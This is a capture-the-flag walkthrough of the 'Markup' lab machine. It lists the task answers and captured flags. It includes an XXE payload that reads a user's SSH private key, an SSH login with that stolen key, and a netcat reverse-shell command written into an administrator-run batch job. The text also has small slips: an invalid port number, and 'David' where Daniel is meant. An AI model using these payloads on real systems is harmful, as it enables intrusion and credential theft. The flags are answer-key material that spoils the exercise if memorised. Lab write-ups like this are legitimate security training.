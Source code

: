 ### Markup
**OS:** Windows<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>

**Tags:** Apache, SSH, PHP, Reconnaissance, Scheduled Job Abuse, Weak Credentials, Arbitrary File Upload, XXE Injection, Weak Permissions<br>
**Tools: Nmap, BurpSuite, Netcat**

---

#### Task 1
**What version of Apache is running on the target's port 80?**
> 2.4.41

![Nmap Scan](nmap.png)

#### Task 2
**What username:password combination logs in successfully?**
> admin:password

We use Hydra to find valid credentials:

![Hydra](hydra.png)

#### Task 3
**What is the word at the top of the page that accepts user input?**
> Order

![Order](order.png)

#### Task 4
*What XML version is used on the target?*
> 1.0

We make an order and use Burp Suite to intercept the request. We see that the XML version is hardcoded into HTTP POST Request data:

```xml
<?xml version = "1.0"?>
    <order>
        <quantity>1</quantity>
        <item>1</item>
        <address>Test</address>
    </order>
```

#### Task 5
**What does the XXE / XEE attack acronym stand for?**
> XML External Entity

#### Task 6
**What username can we find on the webpage's HTML code?**
> Daniel

Looking at the underlying source code on the orders page, we see a comment:

```html
<!-- Modified by Daniel : UI-Fix-9092-->
```

#### Task 7
**What is the file located in the Log-Management folder on the target?**
> job.bat

We can use Burp Suite to send and XEE Payload for a LFI vulnerability:

```xml
<?xml version = "1.0"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "file:///C:/users/daniel/.ssh/id_rsa">
]>
<order>
    <quantity>1</quantity>
    <item>&file;</item>
    <address>Test</address>
</order>
```

We get the value of David's SSH Key from the LFI and use it to to authenticate to the target system:

```Bash
$ nano ~/.ssh/id_rsa
$ chmod 700 ~/.ssh
$ chmod 600 ~/.ssh/id_rsa
ssh -i ~/.ssh/id_rsa daniel@10.129.95.192
```

Once in the target system, we see that there is a file `job.bat` in the C:\Log-Management directory.

## Task 8
*What executable is mentioned in the file mentioned before?*
> wevtutil.exe 

We view the contents of `job.bat`:

```
@echo off 
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

---

## User Flag
> 032d2fc8952a8c24e39c8f0ee9918ef7

## Root Flag
> f574a3e7650cebd8c39784299cb570f8

We setup a listener on port `123456` of our computer. Then we transfer the Netcat Executable `nc.exe` to the `C:\Log-Management` folder of the target computer. We overwrite the contents of `job.bat` to open a reverse Windows Command Shell. Since the `job.bat` executable runs with Administrator permissions, our command shell will also run with Administrator permissions:

```Powershell
daniel@MARKUP C:\Log-Management>echo C:\Log-Management\nc.exe -e cmd.exe 10.10.15.75 123456 > job.bat
```

---